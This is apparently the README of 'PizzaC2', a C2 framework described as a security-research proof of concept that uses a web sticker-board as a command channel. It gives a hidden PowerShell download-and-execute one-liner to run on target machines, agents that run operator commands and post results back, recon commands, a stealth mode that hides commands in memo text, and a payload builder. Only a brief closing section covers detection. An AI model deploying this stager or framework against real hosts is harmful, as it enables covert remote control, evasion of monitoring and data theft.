

<p align="right">
  <strong>English</strong> | <a href="README_KR.md">한국어</a>
</p>

# 🍕 PizzaC2 - LOTS (Living Off Trusted Sites) C2 Framework

> **"If a server and an agent can share a common data store (bulletin board, posts/stickers), it inherently becomes a C2 channel."**

`PizzaC2` is a **LOTS (Living Off Trusted Sites)** Proof-of-Concept (PoC) and security research framework that repurposes a web-based entry-code lounge and sticker-board platform ([give-me-the-pizza](https://lolonoa-ralo.github.io/give-me-the-pizza/)) as a **Command and Control (C2)** channel.

---

## 📌 1. Concept & Background: What is LOTS C2?

### 💡 LOTS (Living Off Trusted Sites)
Traditional attacker C2 servers (malicious domains/IPs) are readily blocked by network firewalls, web proxies, and EDR solutions.  
In contrast, traffic targeting **trusted, everyday web services** (such as GitHub, Notion, Discord, Slack, public discussion forums, or casual web bulletin boards) is exceptionally difficult to block without disrupting legitimate business operations.

**LOTS C2** leverages these legitimate and trusted platforms as relay intermediaries:
1. **The Server (Operator)** posts commands (`!whoami`, `!dir`, etc.) to the board disguised as ordinary notes or stickers.
2. **The Agent** on the target host periodically inspects (polls) the board via normal web traffic (HTTPS/HTTP).
3. Upon discovering a new command sticker, the agent executes it in the local shell (PowerShell/Bash) and posts the execution output back onto the board as a **result sticker**.
4. The operator monitors the execution output directly on the interactive web browser board in real time.

---

## 🏗️ 2. System Architecture



---

## 🚀 3. Quick Start Guide

### Step 1: Run C2 Relay Server

Windows native (PowerShell built-in, zero dependencies):
```powershell
powershell -ExecutionPolicy Bypass -File server.ps1 -Port 8080
```

Linux / macOS or Python environment:
```bash
python server.py
```
> Once the server is running, access the web lounge at `http://127.0.0.1:8080` in your browser.

---

### Step 2: Create a Room in the Web Lounge

1. Open `http://127.0.0.1:8080` in your web browser.
2. Click **"무작위 코드 만들기" (Generate Random Code)** to create a 6-digit entry code (e.g., `482910`).
3. Click **"코드 입력하기" (Enter Code)**, enter the generated 6-digit code and a nickname, then join the room.
4. Click the **`[⚡ PizzaC2]` console button** on the top-right toolbar.

---

### Step 3: Run Agent on Target Host

#### Method A: Ultra-simple 1-Liner (Windows PowerShell)
Click the **[Copy]** button in the PizzaC2 control panel, or paste the following command into the target machine's cmd/PowerShell:
```powershell
powershell -w hidden -nop -c "iex(New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/api/agent/ps1?code=482910&server=http://127.0.0.1:8080')"
```

#### Method B: Python Agent (Cross-Platform)
```bash
python agent.py --code 482910 --server http://127.0.0.1:8080
```

> **When the Agent connects:**  
> It will immediately appear as `🤖 Agent-DESKTOP-XXX` in the **"접속중인 유저" (Online Users)** list on the right side of the board!

---

### Step 4: Command & Control via Stickers

Post a sticker directly by clicking the `+` button on the board, or use the quick command buttons inside the **`[⚡ PizzaC2]` console**.

| Sticker Command Example | Description |
|---|---|
| `!whoami` | Check current user privileges |
| `!hostname` | Query target machine hostname |
| `!ipconfig` | Retrieve network IP configurations |
| `!sysinfo` | Summary of OS version & hardware specifications |
| `!ps` | List top CPU consuming processes |
| `!dir C:\` | Directory listing of drive C:\ |
| `!net user` | List local user accounts |
| `!sleep 5` | Change agent polling interval to 5 seconds |
| `!exit` | Safely terminate the agent |
| `[CMD] Get-Service` | Execute arbitrary PowerShell cmdlet |
| `Meeting Notes [c: whoami]` | **Stealth LOTS Mode**: Conceal command within ordinary memo text |

> **Execution Results:**  
> The agent collects the output and immediately posts it back onto the board as a **dark terminal-styled `[RES]` sticker**.  
> You can copy the raw output to your clipboard with a single click.

---

## 🛠️ 4. Key Files & Structure

| File | Description |
|---|---|
| `index.html` | Pizza Web Lounge UI + C2 Control Panel + Real-time board & presence sync client |
| `server.ps1` | Windows PowerShell native C2 relay server (Zero external dependencies) |
| `server.py` | Python 3 standard library-based C2 relay server (Zero external dependencies) |
| `agent.ps1` | Native PowerShell C2 agent for Windows targets |
| `agent.py` | Python 3 cross-platform C2 agent for Linux / macOS / Windows targets |
| `builder.ps1` | Script to build customized 1-Liners and agent payloads |

---

## 🛡️ 5. Security & Defensive Perspective (Blue Team / Detection)

This project is created strictly for cybersecurity educational purposes and authorized Red Teaming exercises.  
From a Blue Team perspective, LOTS C2 activities can be detected and mitigated via:

1. **Beaconing Analysis**: Detecting periodic inbound/outbound HTTP requests to identical endpoints at regular intervals (e.g., jitter-less 3s or 5s intervals).
2. **User-Agent Anomalies**: Inspecting non-standard browser headers such as default `WebClient` or `Python-urllib` user agents.
3. **PowerShell Script Block Logging (Event ID 4104)**: Detecting in-memory `Invoke-Expression` execution and remote code download stagers.
4. **AMSI (Antimalware Scan Interface)**: Inspecting in-memory obfuscated 1-Liners and script payloads before execution.
